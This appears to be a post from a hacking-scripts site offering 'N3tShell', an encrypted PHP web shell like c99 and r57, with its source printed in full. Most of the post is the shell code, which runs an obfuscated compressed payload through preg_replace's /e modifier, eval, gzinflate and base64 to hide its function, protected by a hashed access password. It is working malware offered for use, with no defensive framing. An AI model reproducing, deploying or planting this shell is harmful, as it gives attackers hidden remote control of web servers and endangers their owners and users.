 ```yaml
---
id: 83
title: 'N3tShell v. Emp3ror Undetectable #18 (encrypted)'
author: admin
layout: post
guid: http://hackingscripts.com/?p=83
permalink: /n3tshell/
categories:
  - N3tShell
  - PHP
tags:
  - N3tShell
  - PHP
---
```

The N3tShell is similar to the c99 and r57 shell scripts, and has a fairly pretty interface (so n00bs probably love it). This one is encrypted.


### N3tShell Source Code (encrypted)

{% highlight php linenos %}<?php // Web Shell by oRb
$auth_pass = &quot;98b268e70d7c7ee4b0f6654900fcb841&quot;;
$color = &quot;#df5&quot;;
$default_action = 'FilesMan';
$default_use_ajax = true;
$default_charset = 'Windows-1251';
preg_replace(&quot;/.*/e&quot;,&quot;\x65\x76\x61\x6C\x28\x67\x7A\x69\x6E\x66\
x6C\x61\x74\x65\x28\x62\x61\x73\x65\x36\x34\x5F\x64\x65\x63\x6F
\x64\x65\x28'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
